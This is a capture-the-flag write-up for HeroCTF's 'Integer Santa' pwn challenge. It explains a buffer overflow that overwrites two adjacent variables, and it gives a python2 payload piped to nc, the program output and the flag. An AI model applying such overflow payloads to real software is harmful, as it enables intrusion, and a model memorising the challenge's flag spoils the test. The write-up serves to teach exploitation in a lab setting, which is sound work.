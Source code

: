 # Integer Santa

### Category

Pwn

### Description

Tell Santa what you want for chrismas ! 

nc chall.heroctf.fr xxxx

Format : **Hero{flag}**<br>
Author : **SoEasY**

### Write up

This loop is interesting : 

```c
for(int i=0; i < tours; i++){
    if(i > strlen(flag))
        break;
    printf("%.*s\n", strlen(input) == 0 && valeur==0xcafebabe, ptr);
		ptr += 1;
}
```

We have to overflow the input buffer of 64 bytes, keep the value 0xcafebabe for the int "valeur" (cf. source code in C) and then overflow the "tours" int, whith  the length of the input which must be 0.

Then, the condition `strlen(input) == 0 && valeur==0xcafebabe` will return TRUE, which correponds to the int 1, and so the programm will give you a letter of the flag. By overflowing the variable "tours" we can print all the flag.

So the payload contains : 
- \x00 * 64 to overflow the buffer and having a input length of 0
- 0xcafebabe 
- a caracter to overflow the "tours" int

```bash
$ python2 -c "print('\x00'*64 + '\xbe\xba\xfe\xca' + '1')" | nc challs.heroctf.fr xxxx
██╗  ██╗███████╗██████╗  ██████╗  ██████╗████████╗███████╗
██║  ██║██╔════╝██╔══██╗██╔═══██╗██╔════╝╚══██╔══╝██╔════╝
███████║█████╗  ██████╔╝██║   ██║██║        ██║   █████╗  
██╔══██║██╔══╝  ██╔══██╗██║   ██║██║        ██║   ██╔══╝  
██║  ██║███████╗██║  ██║╚██████╔╝╚██████╗   ██║   ██║     
╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝ ╚═════╝  ╚═════╝   ╚═╝   ╚═╝     
================ Integer Santa (by SoEasY) ===============

Ho ho ho... It's Integer Santa !
Tell me what do you wan for Xmas kiddo (you can ask for 1 gift only !!!) : H
e
r
o
{
W
3
1
r
d
_
0
v
3
r
F
l
0
w
_
f
0
r
_
X
m
4
s
}

Alright ! I'll tell my pixies :)
See u kiddo !
```

### Flag

Hero{W31rd_0v3rFl0w_f0r_Xm4s}

